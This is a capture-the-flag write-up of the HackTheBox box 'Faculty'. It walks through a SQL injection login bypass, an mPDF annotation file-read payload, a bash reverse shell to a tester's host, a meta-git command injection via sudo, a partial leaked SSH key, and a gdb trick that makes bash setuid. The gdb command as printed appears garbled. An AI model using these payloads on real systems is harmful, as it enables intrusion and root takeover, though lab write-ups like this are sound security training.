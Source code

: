 Hello and welcome back to another write up. This one will be for box Faculty from Hackthebox. Without
further adue let's get to it. 

We will start with nmap scan. 

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-28 13:51 EDT
Nmap scan report for 10.10.11.169 (10.10.11.169)
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://faculty.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
We have two open ports - 80 which is http and 22 which is ssh. There is not much we can do with ssh so we will focus
on port 80 for now. Nmap shows us hostname faculty.htb so we will add to our `/etc/hosts` file with command 
`echo "10.10.11.169 faculty.htb" >> /etc/hosts`. Now let's visit the page itself. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_web.png?raw=true)

We are presented with login page that runs php. Now we will start feroxbuster
to brute force directories. With knowledge that it is php we will run it with flag that specifies just that. 

```
302      GET      359l      693w        0c http://faculty.htb/ => login.php
301      GET        7l       12w      178c http://faculty.htb/admin => http://faculty.htb/admin/
500      GET        0l        0w        0c http://faculty.htb/test.php
200      GET      132l      235w        0c http://faculty.htb/login.php
200      GET      175l      311w        0c http://faculty.htb/admin/login.php
200      GET        1l        0w        0c http://faculty.htb/admin/download.php
301      GET        7l       12w      178c http://faculty.htb/admin/database => http://faculty.htb/admin/database/
301      GET        7l       12w      178c http://faculty.htb/admin/assets => http://faculty.htb/admin/assets/
200      GET        0l        0w        0c http://faculty.htb/admin/ajax.php
301      GET        7l       12w      178c http://faculty.htb/admin/assets/js => http://faculty.htb/admin/assets/js/
200      GET       70l      105w        0c http://faculty.htb/admin/users.php
200      GET      106l      167w        0c http://faculty.htb/admin/home.php
-----redacted-----
```

There are many pages but for now let's focus on the default one. If I try to guess id it says that it is invalid. 
we will workaround that and try sql injection. With the simpliest `'or 1=1-- -` we get in. We also get PHPSESSID cookie.
There is nothing interesting. So time to move to admin directory which was found from feroxbuster. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_web_admin.png?raw=true)

It is some type of management system. First thing that I noticed is the export functionality because these aren't common
in ctfs if they don't have a purpose. It creates pdf and saves it on the server. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_export.png?raw=true)

Let's download it and find out if there isn't 
any interesting info about how it is created. For this I used exiftool but there many ways to find this out.

```
# exiftool OKLZOtslJv4TycbW8Xaf50HxIV.pdf 
ExifTool Version Number         : 12.44
File Name                       : OKLZOtslJv4TycbW8Xaf50HxIV.pdf
Directory                       : .
File Size                       : 1742 bytes
File Modification Date/Time     : 2022:10:28 16:23:26-04:00
File Access Date/Time           : 2022:10:28 16:23:26-04:00
File Inode Change Date/Time     : 2022:10:28 16:23:26-04:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Page Layout                     : OneColumn
Producer                        : mPDF 6.0
Create Date                     : 2022:10:28 21:22:02+01:00
Modify Date                     : 2022:10:28 21:22:02+01:00
```

The important thing to note here is the producer - mPDF 6.0. When I first tried to search for vulnerabilities for this version
I couldn't find anything. After that I resorted to looking at github page for this project. After a tidious work we find this
issue(https://github.com/mpdf/mpdf/issues/356) talking about LFI vulnerability caused by injecting annotation tag when generating pdf. (With payload below)

```
 <annotation file="/etc/passwd" content="/etc/passwd"  icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```

This looks useful to us. Now we will catch the burpsuite request and change the contents of the request to this payload. 
We see that the parameter payload gets base64 encoded before it gets send. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_burp1.png?raw=true)

This can be done numerous ways - cyberchef, commandline
or in burp itself. The final request looks like this:

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_burp2.png?raw=true)

At first sight it looks like it didn't work but when we look at the attachements on the left there is a passwd which is the file 
we wanted. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_pdf1.png?raw=true)

Now using the same method but changing the file name in payload we will get the source code for the application. We will start with `index.php`. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_source1.png?raw=true)

Now we will download the `login.php` (found in feroxbuster on in the `index.php` file). This one shows 
`include('./db_connect.php');` this looks promising as it is likely to leak some creadentials and as we find out it does. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_db_connect.png?raw=true)

We have now have password which we can try to use with ssh. But to which user does it belong to ? We have users
that are on the box in passwd file we got earlier. Let's grep for users with `/bin/bash` shell.

```
# cat passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash
developer:x:1001:1002:,,,:/home/developer:/bin/bash

```

If we try one by one we find that it works for the user gbyolo. Running `sudo -l` as first thing shows us that
we have permission to run meta-git as developer user. 

```
gbyolo@faculty:~$ sudo -l
[sudo] password for gbyolo: 
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```

Meta-git isn't on gtfo bins so we have to look somewhere how to weaponize it. I found this hackerone report - 
https://hackerone.com/reports/728040. With this I'll create bash shell and put it in /tmp/shell.sh

```
gbyolo@faculty:/tmp$ cat shell.sh 
bash -i >& /dev/tcp/10.10.14.141/4242 0>&1
```

Set up a nc listener and run command `sudo -u developer /usr/local/bin/meta-git clone 'sss||bash /tmp/shell.sh'` and we have
connection at our netcat. I could upgrade our shell but since developer has .ssh directory with id_rsa in it, I can just
use that and use it to connect to the box.

```
developer@faculty:~/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAxDAgrHcD2I4U329//sdapn4ncVzRYZxACC/czxmSO5Us2S87dxyw
izZ0hDszHyk+bCB5B1wvrtmAFu2KN4aGCoAJMNGmVocBnIkSczGp/zBy0pVK6H7g6GMAVS
pribX/DrdHCcmsIu7WqkyZ0mDN2sS+3uMk6I3361x2ztAG1aC9xJX7EJsHmXDRLZ8G1Rib
KpI0WqAWNSXHDDvcwDpmWDk+NlIRKkpGcVByzhG8x1azvKWS9G36zeLLARBP43ax4eAVrs
Ad+7ig3vl9Iv+ZtRzkH0PsMhriIlHBNUy9dFAGP5aa4ZUkYHi1/MlBnsWOgiRHMgcJzcWX
OGeIJbtcdp2aBOjZlGJ+G6uLWrxwlX9anM3gPXTT4DGqZV1Qp/3+JZF19/KXJ1dr0i328j
saMlzDijF5bZjpAOcLxS0V84t99R/7bRbLdFxME/0xyb6QMKcMDnLrDUmdhiObROZFl3v5
-----snip snip-----
```

Now I downloaded copy of linpeas from my python server. 
```
developer@faculty:/tmp$ wget http://10.10.14.132:8000/linpeas.sh                                                                   
--2022-11-01 20:25:54--  http://10.10.14.132:8000/linpeas.sh
Connecting to 10.10.14.132:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776073 (758K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                                  100%[========================================================================================================================================>] 757.88K  1.04MB/s    in 0.7s    

2022-11-01 20:25:54 (1.04 MB/s) - ‘linpeas.sh’ saved [776073/776073]

developer@faculty:/tmp$ chmod +x linpeas.sh 
developer@faculty:/tmp$ ./linpeas.sh 

```

We find this
```
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rwxr-x--- 1 root debug 8440200 Dec  8  2021 /usr/bin/gdb                                                                                                                                                                                    
```
No we need to find process to attach to gdb. 
```
developer@faculty:/tmp$ ps -aux | grep root
```
After few tries I found that this can be used:
```
root         729  0.0  0.9  26896 18220 ?        Ss   21:22   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers

```
I attach it to gdb with 
```
gdb -p <PID>
```
(in my case 729).
Now I found that to call function from gdb (https://www.zeuthen.desy.de/dv/documentation/unixguide/infohtml/gdb/Calling.html) you can use `call $expr`
So the final exploit looks like this:

```
developer@faculty:/tmp$ gdb -p 729
(gdb) call ("chmod +s /bin/bash")

```
This makes bash setuid and with tag -p it keeps permission so I get root shell.

```
developer@faculty:/tmp$ ls -la /bin/bash
-rwsr-s--x 1 root root 1183448 Apr 18  2022 /bin/bash
developer@faculty:/tmp$ /bin/bash -p
bash-5.0# id
uid=1001(developer) gid=1002(developer) euid=0(root) egid=0(root) groups=0(root),1001(debug),1002(developer),1003(faculty)
bash-5.0# cat /root/root.txt
887e---redacted-------
```
This wraps up the box.
Thank you for reading this write up. If you have any questions, feedback or suggestion or just want to play ctfs with someone you can reach out to me at
https://twitter.com/Vojtech1337